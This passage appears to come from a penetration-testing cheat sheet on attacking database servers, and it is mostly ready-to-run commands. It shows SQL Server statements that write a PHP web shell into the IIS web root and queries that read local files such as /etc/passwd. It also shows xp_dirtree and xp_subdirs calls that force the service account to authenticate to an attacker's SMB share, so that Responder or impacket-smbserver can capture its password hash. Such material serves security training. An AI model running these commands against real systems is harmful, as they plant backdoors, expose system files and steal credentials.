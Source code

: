 Then to create a file:
```console
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

### Read Local Files 

By default, MSSQL allows file read on any file in the operating system to which the account has read access. We can use the following SQL query:
```console
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

As we previously mentioned, by default a MySQL installation does not allow arbitrary file read, but if the correct settings are in place and with the appropriate privileges, we can read files using the following methods:
```console
mysql> select LOAD_FILE("/etc/passwd");
```

### Capture MSSQL Service Hash 

To make this work, we need first to start Responder or impacket-smbserver and execute one of the following SQL queries:

- **XP_DIRTREE** Hash Stealing

```console
1> EXEC master..xp_dirtree '\\<OUR IP>\share\'
2> GO
```

- **XP_SUBDIRS** Hash Stealing

```console
1> EXEC master..xp_subdirs '\\<OUR IP>\share\'
2> GO
```

With the Responder or Impacket:
```console
zero@pio$ sudo responder -I tun0 

...

zero@pio$  sudo impacket-smbserver share ./ -smb2support

...
```

